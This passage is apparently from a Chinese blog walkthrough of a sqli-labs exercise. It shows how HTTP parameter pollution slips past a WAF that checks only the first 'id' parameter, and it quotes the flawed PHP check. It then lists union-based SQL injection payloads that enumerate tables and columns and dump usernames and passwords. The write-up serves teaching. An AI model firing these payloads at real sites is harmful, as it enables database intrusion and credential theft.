 没有对第二个参数进行过滤

而我们是php+apach 就只匹配最后一个参数

所以我们可以在最后一个参数中进行注入

```cobol
?id=1&id=1'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/ec022f49f6c53108e9d6f92130e04dc4.png" alt="" style="max-height:214px; box-sizing:content-box;" />




这里我们就绕过了waf

我们来看看代码的运行

我们写入两个参数

id=1&id=1'

```puppet
 
$qs = $_SERVER['QUERY_STRING'];
首先读取了 qs 就是用户输入的字符串
	$hint=$qs;
传入 hint
	$id1=java_implimentation($qs);
处理字符串  其中我们传入的是 id=1&id=1'
所以就会返回1 因为读取第一个参数
	$id=$_GET['id'];
这里是安全漏洞的地方！！
重新将用户输入的字符串作为GET的参数
	//echo $id1;
	whitelist($id1);
这里只是比对了处理完的字符串
```

如果我们修改了代码



<img src="https://i-blog.csdnimg.cn/blog_migrate/971d0648a47280885bd7724ea9bf2da7.png" alt="" style="max-height:100px; box-sizing:content-box;" />


### 把id作为我们处理完的字符串 那就无法造成参数污染

我们回到这个题目

既然绕过了 waf 我们就可以直接在第二个参数进行注入



```cobol
?id=2&id=0' union select 1,2,3-- +

?id=2&id=0' union select 1,2,database()-- +
 
?id=2&id=0' union select 1,2,group_concat(table_name)from information_schema.tables where table_schema='security'-- +

?id=2&id=0' union select 1,2,group_concat(column_name)from information_schema.columns where table_schema='security' and table_name='users'-- +
 
 
 
?id=2&id=0' union select 1,2,group_concat(username,password)from users-- +

```
